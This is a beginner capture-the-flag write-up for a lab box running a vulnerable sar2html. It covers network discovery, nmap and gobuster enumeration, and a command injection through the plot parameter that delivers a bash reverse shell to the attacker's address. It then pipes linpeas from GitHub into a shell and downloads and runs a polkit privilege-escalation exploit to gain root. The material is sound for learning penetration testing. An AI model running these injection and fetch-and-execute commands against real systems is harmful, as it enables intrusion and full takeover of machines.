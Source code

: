 # SAR

## Introduction

This box is designed to help beginner pentester to get familiar with some pentesting concepts like shell reversing and privilege escalation.

## Information

### Access

### Key Processes

This machine hosts an apache web server, that has the sar2html tool.

## Writeup

After running the machine, the first thing we encounter is the ubuntu authentificator, and find that there is a user called love. 
<img src="assets/auth.png"><br>
But before starting the enumeration phase, we need to get the ip adress of the machine, and to do so we need to run the command netdiscover 
```
sudo netdiscover
```
<img src="assets/netdiscover.png"><br>
Now that we have the ip adress, we can run nmap 

## Enumeration

### Nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.66.153
```
<img src="assets/nmap.png"><br>

We can see that there is one port open (port:80:http), but after checking out its content on the browser it seems to be the apache default page.

<img src="assets/home_apache.png"><br>

### Directory bruteforcing

To check if there are other directories, I used gobuster to bruteforce any existing files or directories in the current directory.
```
gobuster -w ./wordslist2.txt -u 192.168.66.153
```
<img src="assets/gobuster.png"><br>
And we found that there is a robots txt file that pointed us to the right direction.
<img src="assets/robots.png"><br>

### Understanding the vulnerability
Sar2html is a tool that comes with most linux machines, and was found to be vulnerable in version 3.2.1: https://www.exploit-db.com/exploits/47204 . The attacker can manipulate the plot variable to inject command line code into the machine.
<img src="assets/page.png">

### Reverse shell
In order to work freely, I sent an http request with a reverse shell command using a <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp">payload</a>: 
```
;/bin/bash -c 'bash -i >& /dev/udp/192.168.66.191/4242 0>&1'
```
<img src="assets/postman.png"><br>
And used netcat to intercept the communication on my host machine
<img src="assets/nc.png"><br>
The input was weird, as I had to write evert letter in each line so I just opened a subshell and it worked just fine.

Now that we have access to the machine, first thing we're going to try is running linpeas to look for any vulnerability that we can exploit.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

And we've found a polkit vulnerability (CVE-2021-4043)!
<img src="assets/vuln.png"><br>

All we have to do now is to get an exploit for it: 
```
curl https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py --output exploit.py && python3 exploit.py
```

And we finally have root access! 
<img src="assets/root.png">